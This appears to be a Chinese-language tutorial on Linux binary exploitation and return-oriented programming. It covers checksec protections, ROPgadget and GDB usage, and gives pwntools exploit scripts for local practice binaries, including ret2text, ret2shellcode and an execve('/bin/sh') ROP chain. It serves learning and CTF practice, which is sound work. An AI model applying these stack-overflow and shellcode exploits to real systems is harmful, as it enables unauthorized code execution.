

一、ROP思想
在栈缓冲区溢出的基础上，利用程序中已有的小片段( gadgets )来改变某些寄存器或者变量的值，从而控制程序的执行流程，所谓gadgets 就是以 ret 结尾的指令序列，通过这些指令序列，我们可以修改某些地址的内容，方便控制程序的执行流程
之所以称之为 ROP，是因为核心在于利用了指令集中的 ret 指令，改变了指令流的执行顺序。ROP 攻击一般得满足如下条件
- 程序存在溢出，并且可以控制返回地址。
- 可以找到满足条件的 gadgets 以及相应 gadgets 的地址。
如果 gadgets 每次的地址是不固定的，那我们就需要想办法动态获取对应的地址了
二、Linux-Pwn的一些操作
1、checksec 工具检查编译出的文件
kitty@ubuntu:~/桌面/pwn$ checksec stack-example
[*] '/home/kitty/\xe6\xa1\x8c\xe9\x9d\xa2/pwn/stack-example'
Arch: i386-32-little
RELRO: Partial RELRO
Stack: No canary found
NX: NX enabled
PIE: No PIE (0x8048000)1.Canary（栈保护）
这个选项表示栈保护功能有没有开启。
栈溢出保护是一种缓冲区溢出攻击缓解手段，当函数存在缓冲区溢出攻击漏洞时，攻击者可以覆盖栈上的返回地址来让shellcode能够得到执行。当启用栈保护后，函数开始执行的时候会先往栈里插入cookie信息，当函数真正返回的时候会验证cookie信息是否合法，如果不合法就停止程序运行。攻击者在覆盖返回地址的时候往往也会将cookie信息给覆盖掉，导致栈保护检查失败而阻止shellcode的执行。在Linux中我们将cookie信息称为canary。
2.NX/DEP（堆栈不可执行）
NX即No-eXecute（不可执行）的意思，NX（DEP）的基本原理是将数据所在内存页标识为不可执行，当程序溢出成功转入shellcode时，程序会尝试在数据页面上执行指令，此时CPU就会抛出异常，而不是去执行恶意指令。
3.PIE/ASLR（地址随机化）
4.Fortify
这个保护机制查了很久都没有个很好的汉语形容，根据我的理解它其实和栈保护都是gcc的新的为了增强保护的一种机制，防止缓冲区溢出攻击。由于并不是太常见，也没有太多的了解。
5.RelRO
设置符号重定向表格为只读或在程序启动时就解析并绑定所有动态符号，从而减少对GOT（Global Offset Table）攻击。
2、readelf/objdump
readelf -h ret2text查看头信息readelf -S ret2text显示节区表内的所有信息，包括每个节的属性readelf -S ret2text显示节区表内的所有信息，包括每个节的属性readelf -t ret2text用来显示所有节的详细信息readelf -l ret2text显示程序头表信息，包扩有几个段，每个段的属性readelf -r ret2libc1显示所有重定位入口的信息objdump -s ret2text显示指定section的完整内容objdump -h ret2text显示目标文件各个段的头部摘要信息：objdump -d ret2text显示汇编：
3、GDB
断点pwndbg> b *0x80486AE
运行pwndbg> r
4、查看段读写权限
gdb> b main
gdb> r
gdb> vmmap5、ROPgadget
寻找gadget
kitty@ubuntu:~/桌面$ ROPgadget --binary rop --only 'pop|ret'|grep 'eax'
0x0809ddda : pop eax ; pop ebx ; pop esi ; pop edi ; ret
0x080bb196 : pop eax ; ret
0x0807217a : pop eax ; ret 0x80e
0x0804f704 : pop eax ; ret 3
0x0809ddd9 : pop es ; pop eax ; pop ebx ; pop esi ; pop edi ; ret查字符串
kitty@ubuntu:~/桌面$ ROPgadget --binary rop --string '/bin/sh'
Strings information
============================================================
0x080be408 : /bin/sh
寻找int 0x80 的地址
kitty@ubuntu:~/桌面$ ROPgadget --binary rop --only 'int'
Gadgets information
============================================================
0x08049421 : int 0x80
0x080938fe : int 0xbb
0x080869b5 : int 0xf6
0x0807b4d4 : int 0xfc
Unique gadgets found: 4
三、IDA的操作
1、查看栈结构
双击变量即可
2、查看段
ctrl+S
四、一些经典的题目
1、stack-example
最典型的栈溢出利用是覆盖程序的返回地址为攻击者所控制的地址，当然需要确保这个地址所在的段具有可执行权限
##coding=utf8
from pwn import *
## 构造与程序交互的对象
sh = process('./stack_example')
success_addr = 0x0804843b
## 构造payload
payload = 'a' * 0x14 + 'bbbb' + p32(success_addr)
print p32(success_addr)
## 向程序发送字符串
sh.sendline(payload)
## 将代码交互转换为手工交互
sh.interactive()2、ret2text
ret2text 即控制程序执行程序本身已有的的代码(.text)
.text:080486A7 lea eax, [esp+80h+s] //其中s为-0x64
80486a7: 8d 44 24 1c lea 0x1c(%esp),%eax所以偏移地址计算方式

##!/usr/bin/env python
from pwn import *
sh = process('./ret2text')
target = 0x804863a
sh.sendline('A' * (0x6c+4) + p32(target))
sh.interactive()3、ret2shellcode
ret2shellcode，即控制程序执行 shellcode代码。shellcode 指的是用于完成某个功能的汇编代码，常见的功能主要是获取目标系统的 shell。一般来说，shellcode 需要我们自己填充。这其实是另外一种典型的利用方法，即此时我们需要自己去填充一些可执行的代码。
#!/usr/bin/env python
from pwn import *
sh = process('./ret2shellcode')
shellcode = asm(shellcraft.sh())
buf2_addr = 0x804a080
sh.sendline(shellcode.ljust(112, 'A') + p32(buf2_addr))
sh.interactive()bss可执行后，把shellcode放到bss段
4、利用gadgets来getshell
只要我们把对应获取 shell 的系统调用的参数放到对应的寄存器中，那么我们在执行 int 0x80 就可执行对应的系统调用。比如说这里我们利用如下系统调用来获取 shell
execve("/bin/sh",NULL,NULL)其中，该程序是 32 位，所以我们需要使得
系统调用号，即 eax 应该为 0xb
第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
第二个参数，即 ecx 应该为 0
第三个参数，即 edx 应该为 0而我们如何控制这些寄存器的值 呢？这里就需要使用 gadgets。比如说，现在栈顶是 10，那么如果此时执行了pop eax，那么现在 eax 的值就为 10。
ps:
ret 不加参数 相当于 用栈中的数据，修改IP的内容 pop IP#!/usr/bin/env python
from pwn import *
import base64
context.log_level = 'debug'
sh = process('./rop')
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(
['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
print(base64.b16encode(payload))
sh.sendline(payload)
sh.interactive()